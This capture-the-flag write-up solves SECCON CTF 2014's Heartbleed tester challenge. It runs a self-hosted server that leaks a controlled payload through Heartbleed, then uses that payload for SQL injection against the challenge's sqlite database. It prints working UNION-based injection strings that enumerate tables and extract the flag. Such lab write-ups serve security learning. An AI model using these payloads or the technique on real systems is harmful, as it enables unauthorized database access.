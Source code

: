 # SECCON CTF 2014: Bleeding “Heartbleed” Test Web

**Category:** Web
**Points:** 300
**Description:**

> <http://bleeding.pwn.seccon.jp/>

## Write-up

The link points to a service that allows you to enter an IP address and a port number. The correspondingserver is then tested for the Heartbleed vulnerability.

Entering a random IP address (in this case, `173.194.65.100`, one of Google’s IPs) and port 443 results in the URL `http://bleeding.pwn.seccon.jp/?ip=173.194.65.100&port=443`, which displays the test results:

> ```
> Connecting...
> Sending Client Hello...
> Waiting for Server Hello...
>  ... received message: type = 22, ver = 0302, length = 61
>  ... received message: type = 22, ver = 0302, length = 3852
>  ... received message: type = 22, ver = 0302, length = 331
>  ... received message: type = 22, ver = 0302, length = 4
> Sending heartbeat request...
> ```

Below the test results, there is a disclaimer:

> We put test results into our database for analysis. Thank you for your understanding.

A-ha… Could this be a SQL injection challenge?

The HTML source code contains a comment:

```html
<!-- DEBUG: INSERT OK. TIME=1417889356 -->
```

This indicates that the server performs an `INSERT` query.

First, we need to set up a server that is vulnerable to Heartbleed, and that ‘bleeds’/leaks a payload under our control. Luckily, [PPP has already written a script doing just that for PlaidCTF](https://github.com/pwning/plaidctf2014/blob/master/web/heartbleed/Makefile). After some small tweaks to make it read the Heartbleed payload from a file (`/tmp/heartpayload`) at run-time rather than from a hardcoded string at compile-time, we end up with [`Makefile`](Makefile). Insert your server’s IP address at the top of the file, and then run:

```bash
$ make clean && make && ./heartbleed.sh
```

Entering your server details on the web page then takes you to <http://bleeding.pwn.seccon.jp/?ip=$your_server_ip&port=443>. By editing the `/tmp/heartpayload` file on our server and then reloading the above page, we can easily test different payloads.

Using just a single quote (`'`) as the payload results in the following error message:

> DATABASE ERROR!!! near ".": syntax error
>
> ```sql
> select time from results where result='Connecting... Sending Client Hello... Waiting for Server Hello... ... received message: type = 22, ver = 0302, length = 66 ... received message: type = 22, ver = 0302, length = 839 ... received message: type = 22, ver = 0302, length = 331 ... received message: type = 22, ver = 0302, length = 4 Sending heartbeat request... ... received message: type = 24, ver = 0302, length = 16384 Received heartbeat response: .@.'...... WARNING: server returned more data than it should - server is vulnerable! ';
> ```

It seems the server executes the abovementioned `INSERT` query, followed by a `SELECT` query just to fetch the matching timestamp that is displayed in the HTML comment.

After some attempts we realize we can override the timestamp value by using a payload like this:

```
' UNION SELECT 1337 WHERE 1=1 OR '1' LIKE '
```

The `1337` part of that payload is reflected in the HTML comment:

```html
<!-- DEBUG: INSERT OK. TIME=1337 -->
```

Since it seems to be a sqlite database, let’s try to figure out the table names:

```
' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table';--
```

The result:

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

So there are three tables: `results`, `ssFLGss`, and `ttDMYtt`. That second one seems interesting. Eventually we end up with this final payload:

```
' UNION SELECT flag from ssFLGss WHERE 1=1 OR '1' LIKE '
```

And the result:

```
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

The flag is `SECCON{IknewIt!SQLiteAgain!!!}`.

## Other write-ups and resources

* <http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>
* <http://lovelydream.gitcafe.com/2014/12/08/seccon/#Web_300_Heartbleed>
